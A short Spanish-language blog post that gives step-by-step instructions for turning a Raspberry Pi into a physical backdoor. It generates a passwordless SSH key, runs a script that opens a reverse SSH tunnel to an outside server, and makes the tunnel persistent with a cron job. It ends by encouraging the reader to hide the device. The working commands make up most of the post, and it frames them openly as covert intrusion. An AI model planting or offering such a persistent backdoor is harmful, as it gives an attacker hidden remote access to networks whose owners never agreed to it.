 ```yaml
---
layout: post
title: Raspberry Physical Backdoor
category: RaspberryPi
---
```


Reverse SSH connection with Raspbian

# Reverse SSH
Estableceremos una conexion de SSH reversa desde la RPi a algun servidor para poder controlar la RPi. Esto se asemeja a una conexion reversa usando netcat, pero con la variante de que este estara cifrado y contara con contraseña. 

# Materiales

* Raspberry pi
* Servidor

# Configuracion llave publica/privada
Para no colocar el usuario y contraseña cada ves que tengamos que conectarnos desde la RPi al servidor generaremos una llave publica ssh desde Raspbian y la subiremos al servidor donde nos conectaremos mas tarde para controlar la Raspberry Pi

### generando llave en la RPi
```
ssh-keygen -b 2048 -t rsa -f /home/pi/.ssh/id_rsa -q -N ""
```

### subiendo la llave publica al servidor
```
scp .ssh/id_rsa.pub <user>@<serverhost>:.ssh/authorized_keys
```

# Automatizando conexion
Creamos un script (robado) llamado `rpi_backdoor.sh` que automatiza la conexion del ssh

``` bash
#!/bin/bash
createTunnel() {
  /usr/bin/ssh -N -R 2222:localhost:22 <user>@<serverhost>
  if [[ $? -eq 0 ]]; then
    echo Tunnel to jumpbox created successfully
  else
    echo An error occurred creating a tunnel to jumpbox. RC was $?
  fi
}
/bin/pidof ssh
if [[ $? -ne 0 ]]; then
  echo Creating new tunnel connection
  createTunnel
fi
```

Tenemos que hacer que conecte cada vez que inicie Raspbian, para eso usamos cron para que la conexion sea persistente.

```
sudo su
echo "*/1 * * * * ~/rpi_backdoor.sh > tunnel.log 2>&1" >> /var/spool/cron/crontabs/pi
```

# Conectando al backdoor
Teniendo ya todo configurado, reiniciamos la RPi y ya podremos conectarnos desde el server

```
ssh pi@localhost -p 2222
```

# Como esconderlo?
Usa la imaginacion ;)
